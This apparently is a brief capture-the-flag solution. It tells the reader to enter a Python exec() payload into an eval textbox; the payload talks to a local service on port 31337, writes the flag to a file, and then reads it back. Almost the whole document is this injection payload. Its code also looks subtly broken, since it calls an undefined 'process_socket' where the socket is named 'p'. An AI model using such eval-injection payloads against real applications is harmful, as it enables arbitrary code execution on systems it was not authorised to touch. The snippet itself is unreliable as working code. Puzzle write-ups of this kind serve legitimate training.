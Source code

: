 # Solution

Type this in eval textbox:

exec("""import socket as s;p=s.socket(s.AF_INET, s.SOCK_DGRAM);p.setsockopt(s.SOL_SOCKET, s.SO_REUSEADDR, 1);p.bind(("localhost", 0));p.sendto(b"", ("localhost", 31337));open("file_name", "wb").write((process_socket.recvfrom(1024))[0])""")  # write flag to "file_name"

open("file_name")  # read flag from "file_name"
